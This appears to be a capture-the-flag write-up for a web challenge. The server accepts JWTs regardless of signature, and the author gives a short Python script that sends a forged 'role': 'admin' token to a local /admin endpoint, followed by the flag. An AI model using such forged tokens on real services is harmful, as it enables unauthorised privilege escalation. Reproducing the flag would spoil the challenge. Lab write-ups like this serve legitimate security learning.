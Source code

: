 ```yaml
---
created: 2025-03-01T20:43
updated: 2025-03-18T02:31
solves: 20
points: 100
---
```


I thought this was a JWT cracking challenge, but turns out I can just sign it with whatever and it will work. The pasted JWT is from jwt.io with `"role": "admin"`.

```python
import requests
s = requests.Session()
s.post("http://127.0.0.1:53080/signup", json={"username": "www", "password": "www"})
res = s.post("http://127.0.0.1:53080/login", json={"username": "www", "password": "www"}).json()
print(s.get("http://127.0.0.1:53080/admin", headers={"Authorization": "Bearer " +
      "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ind3dyIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MDg3OTY1MiwiZXhwIjoxNzQwODgzMjUyfQ.OQyUrtYW33oG9pUdSRh1_Feps9OI1_ZnJ6qVtmbzgu8"}).text)
```

```flag
ATHACKCTF{trust_is_a_vulnerability}
```
